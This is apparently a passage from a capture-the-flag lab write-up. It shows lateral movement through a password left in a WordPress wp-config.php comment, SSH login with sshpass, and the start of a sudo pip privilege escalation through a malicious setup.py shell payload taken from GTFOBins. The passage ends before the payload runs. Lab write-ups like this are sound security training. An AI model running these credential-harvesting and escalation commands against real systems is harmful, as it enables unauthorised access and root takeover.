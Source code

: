 ## Lateral movement

I begin to explore the server, when I check the `wp-config.php` file:
```shell
$ www-data@wtf:/var/www/html/zhkh$ cat wp-config.php
...
define( 'DB_NAME', 'wp_database' );
...
define( 'DB_USER', 'ra' );
...
define( 'DB_PASSWORD', '912391929129' );
...
//`Db]f{He3HgO`(z
```
Then the comment looks like a password, when I check the users:
```shell
$ www-data@wtf:/var/www/html/zhkh$ cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
ra:x:1000:1000:ra,,,:/home/ra:/bin/bash
```
When I use the `ssh` command with the comment found in the `wp-config` file:
```shell
$ sshpass -p "`Db]f{He3HgO`(z" ssh ra@192.168.56.107
```
Then it works:

![evidence](./static/16-ssh-ra.png)

## Privilege escalation

When I check the `sudo` permissions:
```shell
$ ra@wtf:~$ sudo -l
...SNIPPED...
User ra may run the following commands on wtf:
    (root) NOPASSWD: /usr/bin/pip
```
When I search for that binary in `gtfobins`, then I find the [pip bianry in gtfobins](https://gtfobins.github.io/gtfobins/pip/), when I follow the steps, and I create a temporal directory:
```shell
$ ra@wtf:~$ TF=$(mktemp -d)
```
And I create the shell payload inside of it:
```shell
$ ra@wtf:~$ echo "import os;
> os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > \
> $TF/setup.py
```